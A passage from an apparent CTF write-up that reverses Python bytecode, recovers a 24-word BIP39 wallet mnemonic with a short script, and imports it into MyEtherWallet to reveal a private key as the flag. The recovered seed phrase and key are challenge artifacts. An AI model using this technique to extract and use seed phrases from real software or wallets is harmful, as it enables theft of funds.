 22         158 BUILD_LIST               0
            160 STORE_NAME              15 (mnemonic)

 24         162 LOAD_NAME               16 (range)
            164 LOAD_CONST               0 (0)
            166 LOAD_NAME               14 (len)
            168 LOAD_NAME               10 (code)
            170 CALL_FUNCTION            1
            172 LOAD_CONST               8 (12)
            174 CALL_FUNCTION            3
            176 GET_ITER
        >>  178 FOR_ITER                20 (to 220)
            180 STORE_NAME              17 (i)

 25         182 LOAD_NAME               15 (mnemonic)
            184 LOAD_METHOD             18 (append)
            186 LOAD_NAME                5 (words)
            188 LOAD_NAME               19 (int)
            190 LOAD_NAME               10 (code)
            192 LOAD_NAME               17 (i)
            194 LOAD_NAME               17 (i)
            196 LOAD_CONST               8 (12)
            198 BINARY_ADD
            200 BUILD_SLICE              2
            202 BINARY_SUBSCR
            204 LOAD_CONST               7 (2)
            206 CALL_FUNCTION            2
            208 LOAD_CONST               2 (1)
            210 BINARY_SUBTRACT
            212 BINARY_SUBSCR
            214 CALL_METHOD              1
            216 POP_TOP
            218 JUMP_ABSOLUTE           89 (to 178)

 27     >>  220 LOAD_NAME                3 (print)
            222 LOAD_CONST               9 ('Wrong')
            224 CALL_FUNCTION            1
            226 POP_TOP
            228 LOAD_CONST               1 (None)
            230 RETURN_VALUE
None
```

Let's analyze this:

1. The program loads the [`bip39`](https://github.com/bitcoin/bips/blob/master/bip-0039/english.txt) wordlist. It's a standard wordlist used to secure crypto wallets with a mnemonic.
2. It then stores a hardcoded integer in the variable `code`, converts to binary and `zfill`s it so that length is multiple of 12.
3. Next, it converts each 12 bits to decimal, and subtracts one. This number is used as an index, and appends the corresponding word from `bip39` in an array called `mnemonic`.
4. No matter what, the code will always print "Wrong"! :D

Let's write a simple script to find the mnemonics with this information:

```py title="mnemonic.py" caption="Mnemonic Finder" showLineNumbers
#!/usr/bin/python3
words = []

with open('bip39list.txt', 'r') as f:
    words = f.read().splitlines()

code = 75673125099835840306362297188218306412669859836254678874904603942583570317024638985472
code = bin(code)[2:]
code = str(code.zfill(len(code) + (12 - len(code) % 12)))

mnemonic = []

for i in range(0, len(code), 12):
    mnemonic.append(words[int(code[i:i + 12], 2) - 1])

print(mnemonic)
```

Running the script:

```ansi
$ python3 mnemonic.py
['evidence', 'leopard', 'solution', 'layer', 'legend', 'danger', 'orient', 'project', 'silver', 'flower', 'wrong', 'path', 'stove', 'throw', 'fortune', 'report', 'nuclear', 'old', 'target', 'exact', 'broom', 'hawk', 'toss', 'paper']
```

Looks like we've got our mnemonic!

Now we can visit [MyEtherWallet](https://www.myetherwallet.com/wallet/access/software?type=mnemonic) and enter the 24-word mnemonic phrase. Look for the `0xACa5872e497F0Cc626d1E9bA28bAEC149315266e` wallet and gain access to the dashboard:


To access the private key, go to `My personal account` -> `View paper wallet`:


<InfoBox type="flag">
  **Symbolic Needs 2**: `SEKAI{0x81c458e9fae445de18385a3379513acc8e191e4c2667c85aa0a52a32ec4e6d55}`
</InfoBox>
